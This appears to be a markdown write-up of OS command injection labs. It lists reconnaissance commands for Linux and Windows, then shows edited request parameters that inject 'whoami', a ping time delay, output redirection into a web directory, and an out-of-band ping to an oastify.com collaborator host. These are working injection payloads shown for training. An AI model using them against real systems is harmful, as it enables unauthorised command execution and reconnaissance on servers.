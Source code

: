 #
| Purpose of command      | Linux |Window |
| ----------- | ----------- |----------- |
| Name of current user     | Whoami      |whoami      |
| OS  | uname -a       |ver        |
| Network configuration    | ifconfig       |ipconfig /all      |
| Network connections    | netstat -an        |netstat -an        |
| Running processes   | ps -ef       |tasklist        |


+ Linux 	Windows
    + Name of current user 	whoami 	whoami

Operating system 	uname -a 	ver

Network configuration 	ifconfig 	ipconfig /all

Network connections 	netstat -an 	netstat -an

Running processes 	ps -ef 	tasklist 
## OS command injection, simple case
+ Injection point 

![os](./img/OS.png)

+ Edit to
```sql
productId=9&storeId=1|whoami
``` 

+ Result

![Os2](./img/os2.png)


## Blind OS command injection with time delays
+ Injection point

![os3](./img/os3.png)

+ Edit to
```sql
csrf=FBV2IgYkUcBBbBB3Ym2rf4jzwzt8u5GC&name=asfasfsa&email=x||ping+-c+10+127.0.0.1||&subject=fasfsaf&message=asfafasf
```

+ Result 
![os4](./img/os4.png)

## Blind OS command injection with output redirection
+ Injection Point

![os5](./img/os5.png)

+ Change to
```sql
csrf=mMJdwPhirm9P31qyprO5FdxcQ0wfMs7Q&name=dasdfisijfh&email=a||ps+-ef>/var/www/images/abcde.txt||&subject=dassad&message=asdfasf
```

+ Result

![os6](./img/os6.png)

![os6](./img/os7.png)

## Blind OS command injection with out-of-band interaction
+ Injection Point

![os8](./img/os8.png)

+ Change to
```sql
csrf=hqgeul0SUvT16iR4Lg3IdWvcwFiNG5hx&name=fasfa&email=||ping+2wzr9h5w9vyrx07wc2j5vhgf66cx0poe.oastify.com||&subject=asfasf&message=asdsad
```

+ Result 

![os9](./img/os9.png)
![os9](./img/os10.png)

